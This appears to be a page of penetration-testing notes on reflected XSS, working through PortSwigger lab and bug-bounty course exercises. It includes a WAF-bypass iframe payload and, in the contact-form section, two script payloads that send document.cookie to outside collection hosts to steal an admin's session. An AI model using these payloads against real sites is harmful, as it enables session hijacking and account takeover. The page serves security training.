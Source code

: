 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reflected

{% hint style="info" %}
Reflected XSS occurs when malicious scripts are reflected off a web server, executed immediately, and displayed in the user's browser, typically via URL parameters or form inputs.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized actions, data theft, or redirection to malicious sites, as the script runs in the context of the trusted website.
{% endhint %}

## Filter Bypass

> The example below is based on PortSwigger's [_Reflected XSS into HTML context with most tags and attributes blocked_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked) lab.

In this web application, there is a search functionality and the search term is reflected back into the page within HTML tags (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_1.png" alt=""><figcaption><p>Figure 1: Identifying where our input is reflected.</p></figcaption></figure>

When our payload is inside HTML tags, we can simply add new HTML tags to trigger it. It seems that there is a WAF[^1] blocking specific tags (Figure 2).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_2.png" alt=""><figcaption><p>Figure 2: Common JavaScript tags seem to be blocked by a WAF.</p></figcaption></figure>

We can create a tag wordlist using PortSwigger's [XSS Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet), and fuzz the application to see which tags are allowed (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_3.png" alt=""><figcaption><p>Figure 3: Fuzzing JavaScript tags with Burp's Intruder.</p></figcaption></figure>

Trying the `<body>` tag results in another verbose error message (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_4.png" alt=""><figcaption><p>Figure 4: Another verbose error message informing us about a blacklisted attribute.</p></figcaption></figure>

We can repeat the same process we did for tags to find allowed attributes (Figure 5).

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_5.png" alt=""><figcaption><p>Figure 5: Fuzzing JavaScript attributes with Burp's Intruder.</p></figcaption></figure>

Now, all we have to do is delivering our XSS payload to the victim via the exploit server (Figure 6).

{% code overflow="wrap" %}
```javascript
<iframe src="https://0a64008c03c63be4804ada980065007b.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" onload=this.style.width='1em'>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_reflected_xss_6.png" alt=""><figcaption><p>Figure 6: Delivering the exploit to the victim via an <code>iframe</code>.</p></figcaption></figure>

## Within JS

> The example below is based on PortSwigger's [_Reflected XSS into a JavaScript string with angle brackets HTML encoded_](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded) lab.

This time the search keyword ends up within a block of JS[^2] code (Figure 7).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_7.png" alt=""><figcaption><p>Figure 7: Identifying the context of a potential XSS flaw.</p></figcaption></figure>

We can treat this similar to an [SQLi](../sqli/) flaw and try injecting JS[^3] code to the search keyword (Figure 8).

<figure><img src="../../../../.gitbook/assets/web_xss_reflected_8.png" alt=""><figcaption><p>Figure 8: Achieving XSS via JavaScript Injection.</p></figcaption></figure>

## Contact Form

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

This application has a Support Ticket functionality and we also have access to an admin account that will review the submitted ticket. To test for stored XSS will use FireFox's [Multi-Account Containers](../../authorization/automated-a-b-testing.md#multi-account-containers) (Figure 9).

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_1.png" alt=""><figcaption><p>Figure 9: Setting up FireFox's containers for XSS testing.</p></figcaption></figure>

We will a web server, such as Burp's Collaborator (available only in Pro) or [Webhook](https://webhook.site/) (free), to receive the request along with the admin's cookie (Figure 10 & 11).

{% code overflow="wrap" %}
```javascript
// collaborator payload
<script>
fetch('https://705jjd45qk9l1pb4rhns097xgomfa5yu.oastify.com', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

// webhook payload
<script>var i = new Image; i.src="https://webhook.site/094ef770-e736-4b31-a3cb-34be690ff1b9/?"+document.cookie</script>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_collaborator.png" alt=""><figcaption><p>Figure 10: Using Burp's Collaborator to steal the admin's cookie.</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/web_xss_stored_cookie_webhook.png" alt=""><figcaption><p>Figure 11: Figure 10: Using Webhook to steal the admin's cookie.</p></figcaption></figure>

[^1]: Web Application Firewall

[^2]: JavaScript

[^3]: JavaScript
